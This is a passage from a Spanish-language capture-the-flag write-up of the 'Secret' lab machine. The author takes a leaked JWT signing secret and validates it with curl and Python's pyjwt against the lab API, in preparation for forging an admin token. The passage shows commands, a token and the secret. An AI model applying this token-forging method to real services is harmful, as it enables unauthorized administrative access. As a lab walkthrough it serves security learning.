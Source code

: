 ![Source-Admin]({{ 'assets/img/writeups/Secret/sourceAdmin.png' | relative_url }}){: .center-image }

Podemos ver que el usuario administrador se llama realmente **theadmin**. Así que ahora teniendo el "secreto" voy a intentar crear un JWT del usuario theadmin.   
El fichero de arriba viene bien porque también podremos comprobar si funciona, porque si nos conectamos como un usuario normal nos informará de ello y si , por el contrario, lo hacemos con theadmin también nos informará con otra respuesta distinta. Por ejemplo, con mi usuario creado antes:
```
❯ curl -s -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NDIxYTI2ZjQ3ZjZlNTA0NjNhNjdmOTQiLCJuYW1lIjoiZ3VpbGxlcm1vIiwiZW1haWwiOiJndWlsbGVybW9Ac2VjcmV0LmNvbSIsImlhdCI6MTY3OTkyNjA5NH0.ZHu8rIH3Wx5j-rUaVJMtu6-HGkzZjGBCUHf2MeRfKzk' http://10.10.11.120/api/priv | jq

{
  "role": {
    "role": "you are normal user",
    "desc": "guillermo"
  }
}
```
La ruta a mandar sé que es /priv porque lo ponía en el fichero private.js. El tema de la cabecera lo saco del archivo verytoken.js: `const token = req.header("auth-token");`

Ahora toca crear el JWT con usuario theadmin, para ello usaré **python**, también se puede hacer en la página web **jwt.io**.

Corro python3 desde consola. Tengo que instalarme pyjwt, lo hago con `pip3 install pyjwt`.
```
>>> import jwt
>>> token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NDIxYTI2ZjQ3ZjZlNTA0NjNhNjdmOTQiLCJuYW1lIjoiZ3VpbGxlcm1vIiwiZW1haWwiOiJndWlsbGVybW9Ac2VjcmV0LmNvbSIsImlhdCI6MTY3OTkyNjA5NH0.ZHu8rIH3Wx5j-rUaVJMtu6-HGkzZjGBCUHf2MeRfKzk'
>>> secret = 'gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE'
```
Entonces decodeo con la función jwt.decode:
```
jwt.decode(token, secret)

Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3/dist-packages/jwt/api_jwt.py", line 119, in decode
    decoded = self.decode_complete(jwt, key, algorithms, options, **kwargs)
  File "/usr/lib/python3/dist-packages/jwt/api_jwt.py", line 86, in decode_complete
    raise DecodeError(
jwt.exceptions.DecodeError: It is required that you pass in a value for the "algorithms" argument when calling decode().
```
Nos da un error. Buscando un poco por el **internete** encontramos la solución:
```
>>> jwt.decode(token, secret, algorithms=["HS256", "RS256"])

{'_id': '6421a26f47f6e50463a67f94', 'name': 'guillermo', 'email': 'guillermo@secret.com', 'iat': 1679926094}
```
¡Perfecto, funciona, es válido el secret!.
